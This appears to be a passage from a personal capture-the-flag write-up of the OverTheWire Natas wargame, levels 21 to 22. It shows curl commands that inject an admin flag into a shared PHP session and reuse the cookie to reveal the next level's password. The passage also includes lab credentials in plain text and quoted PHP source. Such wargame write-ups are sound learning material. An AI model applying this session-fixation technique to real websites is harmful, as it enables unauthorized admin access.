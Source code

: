 So, I want to set the session using the "natas21-experimenter" site, and the re-use it in the regular one...
```
abs@MacBookPro OverTheWire % curl "http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=1" -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH -d "name=hiii & submit=yo & admin=1" -i
Set-Cookie: PHPSESSID=8f054i5uko362idrks99b9m9va; path=/; HttpOnly
...
[DEBUG] Session contents:<br>Array
(
    [debug] => 1
    [name] => hiii 
    [submit] => yo 
    [admin] => 1
)
```

```
abs@MacBookPro OverTheWire % curl "natas21.natas.labs.overthewire.org/index.php?debug=1" -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH -i -H "Cookie: PHPSESSID=8f054i5uko362idrks99b9m9va"
...
You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz</pre>
```

# Level 21 -> 22:
abs@MacBookPro OverTheWire % curl "http://natas22.natas.labs.overthewire.org//index.php?debug=1" -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz -s -i
...
Set-Cookie: PHPSESSID=uplh9o1b02h8ndcibva41ipcsv; path=/; HttpOnly
...
<h1>natas22</h1>
<div id="content">
...
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Very useful..

index-source.html:
```
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

...
